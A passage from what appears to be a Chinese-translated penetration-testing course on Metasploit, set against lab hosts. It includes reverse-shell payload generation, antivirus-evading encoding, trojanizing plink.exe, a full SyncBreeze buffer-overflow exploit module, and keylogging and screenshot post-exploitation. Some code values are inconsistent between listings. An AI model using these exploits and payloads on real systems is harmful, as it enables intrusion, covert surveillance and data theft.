让我们尝试将此载荷用于 Syncbreeze。如果所有配置都正确，我们可以启动漏洞利用并建立反向 meterpreter 连接：

```
msf5 exploit(windows/http/syncbreeze_bof) > exploit

[*] Started HTTP reverse handler on http://10.11.0.4:4444

[*] Automatically detecting target...

[*] Target is 10.11.0.28

[*] Sending request...

[*] http://10.11.0.4:4444 handling request from 10.11.0.22; (UUID: pwocxbzj) Staging x86

[*] Meterpreter session 1 opened (10.11.0.4:4444 -> 10.11.0.22:50270)

meterpreter >
```

### 列表 767 - 建立反向 meterpreter 连接

如前所示，meterpreter 载荷的语法与我们见过的其他载荷相匹配。让我们进一步深入研究 Meterpreter，以突出它与传统载荷的一些主要区别。

## 22.3.3 实验 Meterpreter

我们可以使用 `help` 命令获取 Meterpreter 内置的所有模块和命令列表：

```
meterpreter > help

Core Commands

=============

Command                  Description

-------                  -----------

?                        Help menu

background               Backgrounds the current session

bkill                    Kills a background meterpreter script

bglst                    Lists running background scripts

bgrun                    Executes a meterpreter script as a background thread

channel                  Displays information or control active channels

close                    Closes a channel

disable_unicode_encoding Disables encoding of unicode strings

enable_unicode_encoding  Enables encoding of unicode strings

exit                     Terminate the meterpreter session

get_timeouts             Get the current session timeout values

guid                     Get the session GUID

.......
```

### 列表 768 - Meterpreter 的帮助命令

了解 Meterpreter 功能的最佳方式是进行测试。让我们从几个简单命令开始，例如 `sysinfo` 和 `getuid`：

```
meterpreter > sysinfo

Computer   : CLIENT251

OS         : Windows 10 (Build 16299).

Architecture : x86

System Language : en_US

Domain     : corp

Logged On Users : 7

Meterpreter : x86/windows

meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```

### 列表 769 - 在 meterpreter 中执行简单命令

列表 769 中发出的命令为我们提供了关于目标计算机、操作系统和当前用户的信息。

接下来，让我们尝试使用内置的 Meterpreter 命令进行一些上传和下载。请注意，由于 shell 转义，我们必须使用两个 `\` 字符作为目标路径，如下所示：

```
meterpreter > upload /usr/share/windows-resources/binaries/nc.exe c:\\Users\\Offsec

[*] uploading   :/usr/share/windows-resources/binaries/nc.exe -> c:\Users\Offsec

[*] uploaded    :/usr/share/windows-resources/binaries/nc.exe -> c:\Users\Offsec\nc.exe

meterpreter > download c:\\Windows\\system32\\calc.exe /tmp/calc.exe

[*] Downloading: c:\Windows\system32\calc.exe -> /tmp/calc.exe
```


[*] Downloaded 25.50 KiB (100.0%): c:\Windows\system32\calc.exe -> /tmp/calc.exe

[*] download    : c:\Windows\system32\calc.exe -> /tmp/calc.exe

meterpreter >

### 列表 770 - 使用 meterpreter 上传和下载文件

`meterpreter` 包括基本的文件系统命令，如 `pwd`、`ls` 和 `cd`，用于导航目标文件系统。尽管这些命令的名称与 Linux 中使用的相同，但它们也适用于（通过 Metasploit）Windows 主机。在 Metasploit 内部启动系统 shell 的最大优势在于，如果出于某种原因我们的 shell 挂掉（例如，我们在 shell 中发出了一个交互式命令，它不会超时），我们可以退出 shell 回到 Meterpreter 会话，并在新的通道中重新启动 shell，如列表 771 所示。

```
meterpreter > shell

Process 3488 created.

Channel 3 created.

C:\Windows\system32> ftp 127.0.0.1

ftp 127.0.0.1

> ftp: connect :Connection refused

^C

Terminate channel 3? [y/N] y

meterpreter > shell

Process 3504 created.

Channel 4 created.

C:\Windows\system32> exit

exit

meterpreter >
```

### 列表 771 - 在 meterpreter 中使用 shell 命令

虽然可以通过使用 `shell` 命令打开的命令提示符运行应用程序，但我们也可以使用内置的 `meterpreter` 命令。例如，`execute` 命令启动应用程序，`ps` 列出所有正在运行的进程，`kill` 终止给定的进程。

虽然 Meterpreter 是 Metasploit 的标志性载荷，包含许多出色的功能，但它不是唯一可用的载荷。还有其他载荷在特定情况下有用，例如 `vncinject/reverse_http`，它创建一个反向 VNC $^{713}$ 图形连接，或者 `php/reverse.php`，这是一种完全用 PHP 编写的反向 shell，可用于利用 PHP web 应用程序。

还存在更奇特的载荷，如 `mainframe/reverse_shelljcl`，这是 Z/OS 大型机的反向 shellcode $^{714}$。

### 22.3.3.2 练习

- 花一些时间查看并试验 Metasploit 中可用的各种载荷。

#### 22.3.4 可执行载荷

Metasploit 框架的载荷也可以导出为各种文件类型和格式，例如 ASP、VBScript、Jar、War、Windows DLL 和 EXE 等。

例如，让我们使用 `msfvenom`⁷ᵇ 实用工具来生成一个原始的 Windows PE 反向 Shell 可执行文件。我们将使用 `-p` 标志来设置负载，将 `LHOST` 和 `LPORT` 设置为指定的监听主机和端口，使用 `-f` 设置输出格式（本例中为 `exe`），并使用 `-o` 指定输出文件名：

```
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.8.4 LPORT=443 -f exe -o shell_reverse.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload

[-] No arch selected, selecting arch: x86 from the payload

No encoder or badchars specified, outputting raw payload

Payload size: 324 bytes

Final size of exe file: 73802 bytes

Saved as: shell_reverse.exe

kali@kali:~$ file shell_reverse.exe

shell_reverse.exe: PE32 executable (GUI) Intel 80386, for MS Windows
```

清单 772 - 使用反向 Shell 负载创建 Windows 可执行文件

嵌入在 PE 文件中的 shellcode 可以使用许多 MSF 编码器中的任何一种进行编码。历史上，这有助于规避杀毒软件，但随着现代 AV 引擎的发展，这一点已不再适用。编码配置使用 `-e` 来指定编码器类型，并使用 `-i` 来设置所需的编码迭代次数。我们可以使用多次编码迭代来进一步混淆二进制文件，这可以有效规避基础的签名检测。

```
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.8.4 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload

[-] No arch selected, selecting arch: x86 from the payload

Found 1 compatible encoders

Attempting to encode payload with 9 iterations of x86/shikata_ga_nai

x86/shikata_ga_nai succeeded with size 351 (iteration=0)

x86/shikata_ga_nai succeeded with size 378 (iteration=1)

x86/shikata_ga_nai succeeded with size 405 (iteration=2)

x86/shikata_ga_nai succeeded with size 432 (iteration=3)

x86/shikata_ga_nai succeeded with size 459 (iteration=4)

x86/shikata_ga_nai succeeded with size 486 (iteration=5)

x86/shikata_ga_nai succeeded with size 513 (iteration=6)

x86/shikata_ga_nai succeeded with size 540 (iteration=7)

x86/shikata_ga_nai succeeded with size 567 (iteration=8)

x86/shikata_ga_nai chosen with final size 567

Payload size: 567 bytes

Final size of exe file: 73802 bytes

Saved as: shell_reverse_msf_encoded.exe
```

清单 773 - 编码反向 Shell 负载

Metasploit 的另一个实用功能是能够向现有的 PE 文件中注入负载，这可能进一步降低被 AV 检测到的几率。注入操作是通过 `-x` 标志完成的，需指定要注入的文件。

⁷ᵇ [Rapid7, 2016], https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom


```
kali@kali:-$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload

[-] No arch selected, selecting arch: x86 from the payload

Found 1 compatible encoders
```


Attempting to encode payload with 9 iterations of `x86/shikata_ga_nai`

`x86/shikata_ga_nai` succeeded with size 351 (`iteration=0`)

`x86/shikata_ga_nai` succeeded with size 378 (`iteration=1`)

`x86/shikata_ga_nai` succeeded with size 405 (`iteration=2`)

`x86/shikata_ga_nai` succeeded with size 432 (`iteration=3`)

`x86/shikata_ga_nai` succeeded with size 459 (`iteration=4`)

`x86/shikata_ga_nai` succeeded with size 486 (`iteration=5`)

`x86/shikata_ga_nai` succeeded with size 513 (`iteration=6`)

`x86/shikata_ga_nai` succeeded with size 540 (`iteration=7`)

`x86/shikata_ga_nai` succeeded with size 567 (`iteration=8`)

`x86/shikata_ga_nai` chosen with final size 567

Payload size: 567 bytes

Final size of exe file: 311296 bytes

Saved as: `shell_reverse_msf_encoded_embedded.exe`

### 清单 774 - 在 `plink.exe` 中嵌入负载

这些负载可以用作客户端攻击的一部分，作为后门，或者作为将负载从一台机器传输到另一台机器的简易独立方法。

当无防备的用户执行包含我们注入负载的二进制文件时，从用户角度来看，它将正常运行。然而在幕后，注入的负载将尝试连接回我们等待的监听器。

一个鲜为人知的秘密是，这个过程也可以在 `msfconsole` 内部通过 `generate` 命令来完成。例如，我们可以执行以下操作来重现之前的 `msfvenom` 示例：

```
msf5 > use payload/windows/shell_reverse_tcp

msf5 payload(windows/shell_reverse_tcp) > set LHOST 10.11.0.4

LHOST => 10.11.0.4

msf5 payload(windows/shell_reverse_tcp) > set LPORT 443

LPORT => 443

msf5 payload(windows/shell_reverse_tcp) > generate -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe

[*] Writing 311296 bytes to shell_reverse_msf_encoded_embedded.exe...
```

### 清单 775 - 在 `msfconsole` 内部将负载嵌入 `plink.exe`

### 22.3.5 Metasploit Exploit Multi Handler

在前面的模块中，我们使用 Netcat 来捕获标准的反向 Shell，例如由 `windows/shell_reverse_tcp` 负载生成的那些。然而，这种方法不够优雅，对于更高级的 Metasploit 负载可能无效。相反，我们应该使用框架中的 `multi/handler` 模块，它适用于所有单阶段和多阶段负载。

在使用 `multi/handler` 模块时，我们必须指定传入的负载类型。

在下例中，我们将指示 `multi/handler` 期望并接受传入的 `windows/meterpreter/reverse_https` Meterpreter 负载，该负载将在我们指定的端口（TCP 443）上启动第一阶段监听器。一旦第一阶段负载被 `multi/handler` 接受，负载的第二阶段就会被回传到目标机器。

设置参数后，我们将运行 `exploit` 来指示 `multi/handler` 监听连接。

```
msf5 > use multi/handler

msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_https

payload => windows/meterpreter/reverse_https

msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

Payload options (windows/meterpreter/reverse_https):

Exploit target:

msf5 exploit(multi/handler) > set LHOST 10.11.0.4

LHOST => 10.11.0.4

msf5 exploit(multi/handler) > set LPORT 443

LPORT => 443

msf5 exploit(multi/handler) > exploit

[*] Started HTTP reverse handler on https://10.11.0.4:443
```

### 清单 776 - 配置 Metasploit `multi/handler` 模块

请注意，不带参数使用 `exploit` 命令将阻塞命令提示符，直到执行完成。在大多数情况下，包含 `-j` 标志以更后台作业的方式运行模块会更有帮助，这样我们可以继续其他工作，同时等待连接。`jobs` 命令允许我们查看正在运行的后台作业。

```
msf5 exploit(multi/handler) > exploit -j

[*] Exploit running as background job 1.

[*] Started HTTP reverse handler on https://10.11.0.4:443

msf5 exploit(multi/handler) > jobs

Jobs

====

  Id   Name              Payload                          Payload opts

  --   ----              -------                          ------------

  0    Exploit: multi/handler windows/meterpreter/reverse_https https://10.11.0.4:443

msf5 exploit(multi/handler) > jobs -i 0

Name: Generic Payload Handler, started at 2019-08-16 07:23:22 -0400

msf5 exploit(multi/handler) > kill 0

[*] Stopping the following job(s): 0

[*] Stopping job 0

msf5 exploit(multi/handler) >
```

### 清单 777 - 将 `multi/handler` 作为后台作业执行

当监听器作为作业运行时，我们可以使用紧随作业 ID 的 `-i` 标志来显示其信息。此外，我们可以使用紧随作业 ID 的 `kill` 来终止作业。

此时，`multi/handler` 正在运行并监听 HTTPS 反向负载连接。现在，我们可以生成包含 `windows/meterpreter/reverse_https` 负载的新可执行文件，在我们的 Windows 目标上执行它，我们的处理器应该就会启动：

```
msf5 exploit(multi/handler) >

[*] https://10.11.0.4:443 handling request from 10.11.0.22; Staging x86 payload (18082 bytes)

[*] Meterpreter session 3 opened (10.11.0.4:443 -> 10.11.0.22:51258)

msf5 exploit(multi/handler) >
```


### 清单 778 - 使用 multi/handler 接受反向 Meterpreter

如果我们监控连接建立过程中的网络流量，我们会发现它看起来与其他任何 HTTPS 连接无异，因此可能会规避基础检测。

| 源地址 | 目标地址 | 协议 | 长度 | 信息 |
|---|---|---|---|---|
| 10.11.8.4 | 10.11.9.22 | TLSv1 | 139 | 应用数据 |
| 10.11.8.4 | 10.11.9.22 | TLSv1 | 139 | 应用数据 |
| 10.11.8.4 | 10.11.9.22 | TLSv1 | 139 | 应用数据 |
| 10.11.8.4 | 10.11.9.22 | TCP | 54 | 48398 -> 3389 [ACK] Seq=2211 Ack=8256 Win=12619 Len=0 |
| 10.11.8.4 | 10.11.9.22 | TLSv1 | 139 | 应用数据 |
| 10.11.8.4 | 10.11.9.22 | TLSv1 | 139 | 应用数据 |
| 10.11.8.4 | 10.11.9.22 | TLSv1 | 139 | 应用数据 |
| 10.11.8.4 | 10.11.9.22 | TLSv1 | 139 | 应用数据 |
| 10.11.8.4 | 10.11.9.22 | TLSv1 | 139 | 应用数据 |
| 10.11.8.4 | 10.11.9.22 | TLSv1 | 139 | 应用数据 |
| 10.11.8.4 | 10.11.9.22 | TLSv1 | 139 | 应用数据 |
| 10.11.8.4 | 10.11.9.22 | TCP | 54 | 48398 -> 3389 [ACK] Seq=2891 Ack=16517 Win=12619 Len=0 |
| 10.11.8.4 | 10.11.9.22 | TCP | 54 | 48398 -> 3389 [ACK] Seq=2891 Ack=41071 Win=12529 Len=0 |
| 10.11.8.4 | 10.11.9.22 | TLSv1 | 139 | 应用数据 |
| 10.11.8.4 | 10.11.9.22 | TCP | 54 | 48398 -> 3389 [ACK] Seq=3861 Ack=53172 Win=12597 Len=0 |
| 10.11.8.4 | 10.11.9.22 | TCP | 54 | 48398 -> 3389 [ACK] Seq=3861 Ack=65573 Win=12597 Len=0 |
| 10.11.8.4 | 10.11.9.22 | TCP | 54 | 48398 -> 3389 [ACK] Seq=3861 Ack=77374 Win=12597 Len=0 |
| 10.11.8.4 | 10.11.9.22 | TCP | 54 | 48398 -> 3389 [ACK] Seq=3861 Ack=91927 Win=12589 Len=0 |
| 10.11.8.4 | 10.11.9.22 | TCP | 54 | 48398 -> 3389 [ACK] Seq=3861 Ack=126245 Win=12552 Len=0 |
| 10.11.8.4 | 10.11.9.22 | TCP | 54 | 48398 -> 3389 [ACK] Seq=3861 Ack=126219 Win=12589 Len=0 |
| 10.11.8.4 | 10.11.9.22 | TCP | 54 | 48398 -> 3389 [ACK] Seq=3861 Ack=133415 Win=12552 Len=0 |

*图 313：Wireshark 中的 HTTPS 有效载荷*

#### 22.3.6 客户端攻击

Metasploit 框架还提供许多协助进行客户端攻击的功能，包括除了我们已经探索过的之外的各种可执行文件格式。我们可以使用 `msfvenom` 的 `-l formats` 选项来查看其中一些可执行文件格式：

```bash
kali@kali:~$ msfvenom -l formats
```

框架可执行格式 [--format <value>]
=================================================

- asb
- aspx
- aspx-exe
- ax152
- dll
- elf
- elf-so
- exe
- ...

*列表 779 - msfvenom 所有可用的文件格式*

`hta`、`vba` 和 `vba-pxh` 格式旨在用于客户端攻击，通过创建恶意的 HTML 应用程序或分别用于 Word 或 Excel 文档的 Office 宏来实现。

MSF 还包含许多浏览器漏洞利用工具。例如，我们可以搜索 'flash' 以显示多个基于 Flash 的漏洞利用工具，如列表 780 所示。

```bash
msf5 > search flash
```

- **exploit/multi/browser/adobe_flash_hacking_team_uaf** 2015-07-06 优秀 Adobe Flash Player ByteArray 释放后使用
- **exploit/multi/browser/adobe_flash_nellymoser_bof** 2015-06-23 优秀 Adobe Flash Player Nellymoser 音频解码缓冲区溢出
- **exploit/multi/browser/adobe_flash_net_connection_confusion** 2015-03-12 优秀 Adobe Flash Player NetConnection 类型混淆
- **exploit/multi/browser/adobe_flash_opaque_background_uaf** 2015-07-06 优秀 Adobe Flash opaqueBackground 释放后使用
- **exploit/multi/browser/adobe_flash_pixel_bender_bof** 2014-04-28 优秀 Adobe Flash Player Shader 缓冲区溢出
- **exploit/multi/browser/adobe_flash_shader_drawing_fill** 2015-05-12 优秀 Adobe Flash Player Drawing Fill Shader 内存损坏
- **exploit/multi/browser/adobe_flash_shader_job_overflow** 2015-05-12 优秀 Adobe Flash Player ShaderJob 缓冲区溢出
- **exploit/multi/browser/adobe_flash_uncompress_zlib_uaf** 2014-04-28 优秀 Adobe Flash Player ByteArray UncompressViaZlibVariant 释放后使用

*列表 780 - Metasploit 中的 Adobe Flash 漏洞利用工具*

虽然这些漏洞利用工具经过验证且大多数是稳定的，但由于开发浏览器漏洞利用工具的挑战日益增加，它们在一定程度上已过时。如果我们发现目标运行在较旧的操作系统（如 Windows 7）上且浏览器未打补丁，这种类型的攻击向量可能提供我们所需的入口。

## 22.3.7 高级功能和传输层

在理解了 Metasploit 框架的基本功能以及 meterpreter 有效载荷后，我们可以继续探讨更高级的选项，这些选项可以通过 `show advanced` 命令显示。让我们调查一下其中一些更有趣的选项。

```bash
msf5 exploit(multi/handler) > show advanced
```


### 模块高级选项 (exploit/multi/handler)：

| 名称 | 当前设置 | 必需 | 描述 |
| ---- | ---- | ---- | ---- |
| ContextInformationFile | no | 包含该信息的文件 |
| DisablePayloadHandler | false | no | 禁用该负载的处理程序代码 |
| EnableContextEncoding | false | no | 编码时使用临时上下文 |
| ExitOnSession | true | yes | 会话后从漏洞利用中返回 |
| ListenerTimeout | 0 | no | 等待的最大秒数 |
| VERBOSE | FALSE | no | 启用详细状态消息 |
| WORKSPACE | no | 指定此模块的工作区 |
| WfsDelay | 0 | no | 等待时的额外延迟 |

### 有效载荷高级选项 (windows/meterpreter/reverse_https)：

| 名称 | 当前设置 | 必需 | 描述 |
| ---- | ---- | ---- | ---- |
| AutoLoadStdapi | true | yes | 自动加载 Stdapi 扩展 |
| AutoRunScript | no | 会话上自动运行的脚本 |
| AutoSystemInfo | true | yes | 自动捕获系统信息 |
| AutoUnhookProcess | false | yes | 自动加载 unhook 扩展 |
| ... | | | |

*列表 781 - multi/handler 的高级选项*


首先，让我们看看一些高级编码选项。在之前的示例中，我们选择对放入漏洞利用工具的第一阶段 shellcode 进行编码。由于 Meterpreter 有效载荷的第二阶段更大且包含更多潜在签名，它可能会被各种防病毒解决方案标记，因此我们也可以选择对第二阶段进行编码。

我们可以使用 `EnableStageEncoding` 与 `StageEncoder` 一起对第二阶段进行编码，从而可能绕过检测。为此，我们将 `EnableStageEncoding` 设置为 `"true"`，并将 `StageEncoder` 设置为我们想要的编码器，在此情况下为 `"x86/shikata_ga_nai"`：

```bash
msf5 exploit(multi/handler) > set EnableStageEncoding true

EnableStageEncoding => true

msf5 exploit(multi/handler) > set StageEncoder x86/shikata_ga_nai

StageEncoder => x86/shikata_ga_nai

msf5 exploit(multi/handler) > exploit -j

[*] 漏洞利用正在作为后台任务 2 运行。

[*] 已在 https://10.11.0.4:443 启动 HTTPS 反向处理程序

msf5 exploit(multi/handler) >

[*] https://10.11.0.4:443 正在处理来自 10.11.0.22 的请求；使用 x86/shikata_ga_nai 对阶段进行编码

[*] https://10.11.0.4:443 正在处理来自 10.11.0.22 的请求；分阶段 x86 有效载荷 (18085 字节)

[*] 已打开 Meterpreter 会话 4 (10.11.0.4:443 -> 10.11.0.22:51270)

msf5 exploit(multi/handler) >
```

*列表 782 - Metasploit 中的 StageEncoding*

`AutoRunScript` 选项也非常有用，因为它会在建立 metasploit 连接时自动运行脚本。这在客户端攻击期间非常有用，因为当用户执行我们的有效载荷时我们可能无法在场，这意味着会话可能会闲置或丢失。例如，我们可以配置 `gather/enum_logged_on_users` 模块，以便在 metasploit 连接时自动枚举登录用户。

```bash
msf5 exploit(multi/handler) > set AutoRunScript windows/gather/enum_logged_on_users

AutoRunScript => windows/gather/enum_logged_on_users

msf5 exploit(multi/handler) > exploit -j

[*] 漏洞利用正在作为后台任务 3 运行。

[*] 已在 https://10.11.0.4:443 启动 HTTPS 反向处理程序

msf5 exploit(multi/handler) >

[*] https://10.11.0.4:443 正在处理来自 10.11.0.22 的请求；分阶段 x86 有效载荷 (18082 字节)

[*] 已打开 Meterpreter 会话 5 (10.11.0.4:443 -> 10.11.0.22:51275)

[*] 会话 ID 5 (10.11.0.4:443 -> 10.11.0.22:51275) 正在处理 AutoRunScript 'windows/gather/enum_logged_on_users'

[*] 正在针对会话 5 运行
```

当前登录用户

```
====================
SID                用户
```

## 22.3.7.1 练习

- 1. 在你的 Kali 系统上创建分阶段（staged）和非分阶段（non-staged）的 Linux 二进制载荷。
- 2. 设置一个 Ncat listener 并运行分阶段载荷。它能正常工作吗？
- 3. 设置一个 Ncat listener 并运行非分阶段载荷。它能正常工作吗？
- 4. 在你的 Windows 系统上获取 Meterpreter shell。练习文件传输。
- 5. 将载荷注入到 `plink.exe`。在你的 Windows 系统上测试它。
- 6. 创建一个运行 Meterpreter 载荷的可执行文件，并在你的 Windows 系统上执行它。
- 7. 在建立 Meterpreter 连接后，设置一个新的传输类型并切换到该类型。

### 22.4 构建我们自己的 MSF 模块

即使是技能最差的程序员也能构建一个自定义的 MSF 模块。Ruby 语言和利用（exploit）结构清晰、直接，并且与 Python 非常相似。为了展示其工作原理，我们将使用框架中现有的 exploit 作为模板，并将其复制到根用户**主**目录下的既定文件夹结构中，从而将我们的 SyncBreeze Python 利用代码移植到 Metasploit 格式。

```bash
kali@kali:~$ sudo mkdir -p /root/.msf4/modules/exploits/windows/http

kali@kali:~$ sudo cp /usr/share/metasploit-framework/modules/exploits/windows/http/disk_pulse_enterprise_get.rb /root/.msf4/modules/exploits/windows/http/syncbreeze.rb

kali@kali:~/.msf4/modules/exploits/windows/http$ sudo nano /root/.msf4/modules/exploits/windows/http/syncbreeze.rb
```

Listing 788 - 创建 exploit 的模板

首先，我们将更新头部信息，包括模块名称、描述、作者和外部参考。

```ruby
'Name'        => 'SyncBreeze Enterprise Buffer Overflow',

'Description' => %{q(

This module ports our python exploit of SyncBreeze Enterprise 10.0.28 to MSF.

)},

'License'          => MSF_LICENSE,

'Author'           => [ 'Offensive Security', 'offsec' ],

'References'       =>
    [
      [ 'EDB', '42886' ]
],
```


# Listing 789 - Metasploit 模块头部信息

在下一部分中，我们将选择默认选项。在这种情况下，我们将把 `EXITFUNC` 设置为“`thread`”，并指定我们发现的不良字符，即 `\x00\x0a\x0d\x25\x26\x2b\x3d`。最后，在 `Targets` 部分中，我们将指定 SyncBreeze 的版本、`JMP ESP` 指令的地址以及用于覆盖 `EIP` 的偏移量。

```ruby
'DefaultOptions' =>
{
   'EXITFUNC' => 'thread'
},
'Platform'         => 'win',
'Payload' => {
    'BadChars' => "\x00\x0a\x0d\x25\x26\x2b\x3d",
    'Space'     => 500
},
'Targets'          =>
[
   [ 'SyncBreeze Enterprise 10.0.28',
{
      'Ret' => 0x1009c83, # JMP ESP -- libbssp.dll
'Offset' => 780
}]
],
```

# Listing 790 - Metasploit 模块选项和设置

接下来，我们将更新 `check` 函数，该函数通过向 URL `/` 发送 HTTP GET 请求来完成。在易受攻击的系统上，结果包含文本“Sync Breeze Enterprise v10.0.28”。

```ruby
def check
  res = send_request_cgi(
    'uri'      => '/',
    'method'   => 'GET'
  )
if res && res.code == 200
product_name = res.body.scan(/(Sync Breeze Enterprise v[\^<*>]/i).flatten.first
if product_name =~ /10\.0\.28/
return Exploit::CheckCode::Appears
end
end
return Exploit::CheckCode::Safe
end
```

# Listing 791 - 我们模块的 check 函数

最后一部分是 `exploit` 本身。首先，我们将创建 `exploit` 字符串，它使用 `JMP ESP` 指令的偏移量和内存地址，以及 `NOP` 蹦床和载荷。然后

我们将使用 HTTP POST 请求，通过 `/login` URL（如原始利用工具中所示）发送构造好的恶意字符串。我们将用利用字符串填充 HTTP POST 的用户名变量：

```ruby
def exploit
    print_status("Generating exploit...")
    exp = rand_text_alpha(target['Offset'])
    exp << [target.ret].pack('V')
    exp << rand_text(4)
    exp << make_nops(10) # NOP sled to make sure we land on jmp to shellcode
    exp << payload.encoded
    print_status("Sending exploit...")
    send_request_cgi(
      'uri' => '/login',
      'method' => 'POST',
      'connection' => 'keep-alive',
      'vars_post' => {
        'username' => "#{exp}",
        'password' => "fakepws"
      }
    )
  handler
  disconnect
end
```

> 清单 792 - Metasploit 模块的利用函数

将所有部分组合在一起，我们就得到了针对 SyncBreeze Enterprise 漏洞的完整 Metasploit 利用模块：

```ruby
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking
  include Msf::Exploit::Remote::HttpClient
  def initialize(info = {})
    super(update_info(info,
      'Name'
                    => 'SyncBreeze Enterprise Buffer Overflow',
      'Description'
          => %q(
          This module ports our python exploit of SyncBreeze Enterprise 10.0.28 to MSF.
      ),
      'License'    => MSF_LICENSE,
      'Author'
                  => [ 'Offensive Security', 'offsec' ],
      'References'
                  =>
                  [
                    [ 'EDB', '42886' ]
                  ],
      'DefaultOptions' =>
      {
        'EXITFUNC' => 'thread'
        },
        'Platform'         => 'win',
        'Payload'          =>
        {
                'BadChars' => "\x00\x0a\x0d\x25\x26\x2b\x3d",
                'Space'    => 500
        },
        'Targets'          =>
        [
                [ 'SyncBreeze Enterprise 10.0.28',
                {
                        'Ret' => 0x10090c83, # JMP ESP -- libssp.dll
                        'Offset' => 780
                }]
        ],
        'Privileged'       => true,
        'DisclosureDate'   => 'Oct 20 2019',
        'DefaultTarget'     => 0)
        register_options([Opts::RPORT(80)])
        end
        def check
                res = send_request_cgi(
                        'uri'     => '/',
                        'method'  => 'GET'
                )
                if res && res.code == 200
                        product_name = res.body.scan(/(Sync Breeze Enterprise v[^\s]+)/i).flatten.first
                        if product_name =~ /10\.0\.28/
                                return Exploit::CheckCode::Appears
                        end
                end
                return Exploit::CheckCode::Safe
        end
        def exploit
                print_status("Generating exploit...")
```


```ruby
exp = rand_text_alpha(target['Offset'])

exp << [target.ret].pack('V')

exp << rand_text(4)

exp << make_nops(10) # NOP sled to make sure we land on jmp to shellcode

exp << payload.encoded

print_status("Sending exploit...")

send_request_cgi(

        'uri' => '/login',

        'method' => 'POST',

        'connection' => 'keep-alive',

        'vars_post' => {

                'username' => "#{exp}",

                'password' => "fakepsw"

        }

)

handler

disconnect

end

end
```

利用工具完成后，我们可以启动 Metasploit 并搜索它。

```bash
kali@kali:~$ sudo msfconsole -q

[*] Starting persistent handler(s)... 

msf5 > search syncbreeze
```

匹配模块
================

| 名称 | 披露日期 | 排名 | 检查 | 描述 |
| :--- | :--- | :---: | :---: | :--- |
| exploit/windows/fileformat/syncbreeze_xml | 2017-03-29 | 普通 | 无 | SyncBreeze Enterprise 9.5.16 - 导入命令缓冲区溢出 |
| exploit/windows/http/syncbreeze/syncbreeze | 2019-10-20 | 优秀 | 有 | SyncBreeze Enterprise 缓冲区溢出 |
| exploit/windows/http/syncbreeze_bof | 2017-03-15 | 很棒 | 有 | SyncBreeze Enterprise GET 缓冲区溢出 |

```bash
msf5 > use exploit/windows/http/syncbreeze/syncbreeze

msf5 exploit(windows/http/syncbreeze/syncbreeze) > 
```


我们注意到，对 `syncbreeze` 的搜索现在包含三个结果，其中第二个结果是我们的自定义利用模块。接下来，我们将选择一个 `payload`，设置所需的参数，并执行漏洞检查。

```bash
msf5 exploit(windows/http/syncbreeze/syncbreeze) > set PAYLOAD windows/meterpreter/reverse_tcp

PAYLOAD => windows/meterpreter/reverse_tcp 

msf5 exploit(windows/http/syncbreeze/syncbreeze) > set RHOSTS 10.11.0.22

RHOSTS => 10.11.0.22 

msf5 exploit(windows/http/syncbreeze/syncbreeze) > set LHOST 10.11.0.4

LHOST => 10.11.0.4 

msf5 exploit(windows/http/syncbreeze/syncbreeze) > check

[*] 10.11.0.22:80 - The target appears to be vulnerable. 
```


最后，我们启动利用模块以获取反向 shell。

```bash
msf5 exploit(windows/http/syncbreeze/syncbreeze) > exploit

[*] Started reverse TCP handler on 10.11.0.4:4444

[*] Generating exploit...

[*] Sending exploit...

[*] Sending stage (197979 bytes) to 10.11.0.22

[*] Meterpreter session 2 opened (10.11.0.4:4444 -> 10.11.0.22:1923) at 05:19:32

meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM

meterpreter > 
```

非常好。它完美运行。我们得益于新的 Metasploit 利用模块获得了 shell。

## 22.4.1 练习

- 1. 为你的 SyncBreeze 利用工具创建一个新的 Metasploit 模块。

## 22.5 使用 Metasploit 进行后渗透（Post-Exploitation）

一旦我们获得目标机器的访问权限，就可以进入后渗透阶段，在此阶段我们收集信息、采取措施维持我们的访问权限、横向移动到其它机器等。

Metasploit 框架具有多个有趣的后渗透特性和模块，可以简化后渗透过程的许多方面。除了内置的 Meterpreter 命令外，还编写了许多以后渗透 MSF 模块，这些模块需要一个活动会话作为参数。

让我们更仔细地看看其中的一些后渗透特性。

> 养成在 Meterpreter 会话中调用 `help` 命令并探索可能操作的习惯。务必定期这样做，因为框架始终处于高强度的开发状态，并会定期添加新选项。

### 22.5.1 核心后渗透特性

如前所述，我们可以导航文件系统，并列出被入侵主机上的操作系统和用户信息以及运行中的进程。我们还可以直接从 Meterpreter 命令提示符上传和下载文件。

Meterpreter 还提供了额外的基本后渗透特性，其中包括通过 `screenshot` 命令对被入侵桌面进行截图的选项：

```
meterpreter > screenshot

Screenshot saved to:/root/.msf4/modules/exploits/windows/http/syncbreeze/beVjSnrB.jpeg

meterpreter > 
```

图 314 展示了截图的截断版本：


图 314. 使用 meterpreter 拍摄的截图

此类功能可以让我们捕获敏感用户操作的图片，这些操作可能难以被发现。Meterpreter 还允许我们启动键盘记录器，并使用 `keyscan_start`、`keyscan_dump` 和 `keyscan_stop` 检测活动的用户击键。

```
meterpreter > keyscan_start

Starting the keystroke sniffer ...

meterpreter > keyscan_dump

Dumping captured keystrokes...

ipconfig<CR>

whoami<CR>

meterpreter > keyscan_stop

Stopping the keystroke sniffer...

meterpreter >
```


清单 798 · 对被入侵用户进行键盘记录

额外的基本后渗透特性包括列出当前用户的空闲时间，以及开启麦克风或网络摄像头，这就是为什么大多数安全人员始终保持网络摄像头被遮盖的原因。

